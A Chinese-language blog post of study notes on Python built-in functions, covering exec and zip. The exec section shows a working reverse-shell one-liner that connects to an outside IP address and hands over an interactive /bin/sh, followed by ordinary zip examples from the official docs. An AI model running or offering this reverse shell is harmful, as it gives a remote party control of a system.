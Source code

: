 ```yaml
---
layout:    post
title:    "python built-in function"
subtitle:   "python 的內建函数"
data: 2017-09-10 20:07:56 +0800
author:   "Les1ie"
catalog: true
tags:
   - 学习笔记
   - python
---
```


## 0x00 
2017-8-8 14:17:43

一直没有怎么用过python的几个内建函数，这里学习一下


## 0x01 exec
这个嘛..执行代码片段，反弹shell不解释
```python
In [1]: s = 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("111.230.102.11",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
In [2]: exec(s)
```

![](http://oqyjccf1n.bkt.clouddn.com/20170904-210522.png)
回车之后
![](http://oqyjccf1n.bkt.clouddn.com/20170904-210619.png)

写无聊的py笔记终于来了点好玩的了



## 0x02 zip
这个很像linear algebra 里面的matrix multiplication, 但是还是有区别，他是将两个元素组合打包成一个`tuple`，而不是做乘法
```python
a = [1,2,3,4,5]
b = [6,7,8,9]
list(zip(a,b))
# [(1, 6), (2, 7), (3, 8), (4, 9)]
```
`zip`函数分别从每个迭代器里面拿出了一个元素然后组合在一起，当到`5`的时候，`b`已经为`Null`了，这时候就会直接结束，以较短的那个迭代器为准

[官方文档](https://docs.python.org/3/library/functions.html#zip)里面写了这个例子，
```python
def zip(*iterables):
    # zip('ABCD', 'xy') --> Ax By
    sentinel = object()
    iterators = [iter(it) for it in iterables]
    while iterators:
        result = []
        for it in iterators:
            elem = next(it, sentinel)
            if elem is sentinel:
                return
            result.append(elem)
        yield tuple(result)
```
当然，`zip`之后的对象是可以`unzip`的
